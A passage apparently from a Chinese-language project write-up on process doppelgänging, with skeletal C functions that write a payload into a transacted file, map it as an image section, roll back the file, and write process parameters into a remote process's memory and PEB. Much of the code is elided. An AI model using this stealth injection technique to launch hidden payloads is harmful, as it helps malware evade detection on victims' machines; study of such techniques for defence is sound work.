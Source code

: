 ```c
HANDLE CreateTransactedSection(BYTE* payloadBuf, DWORD payloadSize) {
    // 1. 创建事务
    HANDLE hTransaction = CreateTransaction(...);

    // 2-3. 创建文件并写入载荷
    HANDLE hWriter = CreateFileTransactedW(..., hTransaction, ...);
    WriteFile(hWriter, payloadBuf, payloadSize, ...);
    CloseHandle(hWriter);

    // 4. 重新打开读取
    HANDLE hReader = CreateFileTransactedW(..., hTransaction, ...);

    // 5. 创建内存节（SEC_IMAGE）
    NtCreateSection(&hSection, ..., SEC_IMAGE, hReader);
    CloseHandle(hReader);

    // 6. 回滚事务（删除文件）
    RollbackTransaction(hTransaction);
    CloseHandle(hTransaction);

    return hSection;
}
```

#### 2. `SetupProcessParameters()`
设置进程环境参数，确保进程能够正常初始化：

```c
BOOL SetupProcessParameters(HANDLE hProcess, PROCESS_BASIC_INFORMATION* pbi,
                           const WCHAR* targetPath) {
    // 初始化 UNICODE_STRING
    UNICODE_STRING uImagePath, uDllPath, uCurrentDir, uWindowName;

    // 创建环境块
    PVOID environment = NULL;
    CreateEnvironmentBlock(&environment, NULL, TRUE);

    // 创建进程参数
    PRTL_USER_PROCESS_PARAMETERS params = NULL;
    RtlCreateProcessParametersEx(&params, ...);

    // 在远程进程分配内存并写入参数
    VirtualAllocEx(hProcess, params, paramsSize, ...);
    WriteProcessMemory(hProcess, params, params, paramsSize, ...);

    // 写入环境变量
    VirtualAllocEx(hProcess, params->Environment, ...);
    WriteProcessMemory(hProcess, params->Environment, ...);

    // 更新 PEB 中的 ProcessParameters 指针
    WriteProcessMemory(hProcess, peb.ProcessParameters, &params, ...);

    return TRUE;
}
```
